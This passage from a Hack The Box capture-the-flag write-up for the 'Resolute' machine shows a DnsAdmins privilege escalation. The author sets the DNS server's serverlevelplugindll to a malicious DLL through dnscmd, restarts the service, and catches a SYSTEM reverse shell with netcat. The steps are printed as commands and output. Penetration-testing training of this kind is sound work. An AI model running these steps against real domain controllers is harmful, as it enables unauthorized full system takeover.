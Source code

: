 
Next, I'll reconfigure the dns service and restart it.

```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> cmd /c 'dnscmd RESOLUTE /config /serverlevelplugindll C:\Windows\System32\spool\drivers\color\pwn.dll'

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> cmd /c "sc stop dns"

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> cmd /c "sc start dns"

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3500
        FLAGS
```

This triggers the DLL and I get a reverse shell as SYSTEM:

```
root@beholder:~/htb/resolute# rlwrap nc -lvnp 5555
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:56778.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
e1d9487[...]
```